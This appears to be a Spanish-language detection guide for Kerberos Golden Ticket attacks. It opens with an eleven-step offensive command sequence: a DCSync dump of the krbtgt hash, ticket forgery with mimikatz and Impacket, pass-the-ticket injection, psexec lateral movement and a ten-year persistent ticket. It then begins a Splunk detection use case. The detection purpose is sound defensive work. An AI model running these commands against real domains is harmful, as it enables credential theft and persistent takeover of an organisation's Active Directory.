 
## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Obtener hash krbtgt mediante DCSync
impacket-secretsdump -just-dc-user krbtgt domain.com/administrator:Password123@dc.domain.com

# 2. Alternativamente, DCSync con mimikatz
privilege::debug
lsadump::dcsync /domain:domain.com /user:krbtgt

# 3. Obtener Domain SID
Get-ADDomain | Select-Object DomainSID

# 4. Crear Golden Ticket con mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-1234567890-987654321-1122334455 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /ticket:golden.kirbi

# 5. Crear Golden Ticket con Impacket ticketer.py
impacket-ticketer -nthash a9b30e5b0dc865eadcea9411e4ade72d -domain-sid S-1-5-21-1234567890-987654321-1122334455 -domain domain.com Administrator

# 6. Inyectar ticket en memoria (mimikatz)
kerberos::ptt golden.kirbi

# 7. Inyectar ticket (Linux con Impacket)
export KRB5CCNAME=Administrator.ccache

# 8. Verificar acceso con ticket inyectado
dir \\dc.domain.com\C$

# 9. Usar ticket para movimiento lateral
impacket-psexec -k -no-pass domain.com/Administrator@target.domain.com

# 10. Crear Golden Ticket con usuario ficticio
impacket-ticketer -nthash a9b30e5b0dc865eadcea9411e4ade72d -domain-sid S-1-5-21-1234567890-987654321-1122334455 -domain domain.com FakeAdmin

# 11. Golden Ticket de larga duración (10 años)
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-1234567890-987654321-1122334455 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /startoffset:-10 /endin:87600 /renewmax:87600 /ticket:persistent_golden.kirbi
```

---

## 📋 Caso de Uso Completo Splunk

### 🎯 Contexto empresarial y justificación

**Problema de negocio:**
- Golden Tickets proporcionan acceso persistente total al dominio usando credenciales falsificadas
- Un solo Golden Ticket puede comprometer la integridad de todo el entorno AD de forma permanente
- La detección es compleja ya que usan protocolos Kerberos legítimos con tickets técnicamente válidos
- Costo estimado de compromiso persistente del dominio: $2,500,000 USD promedio
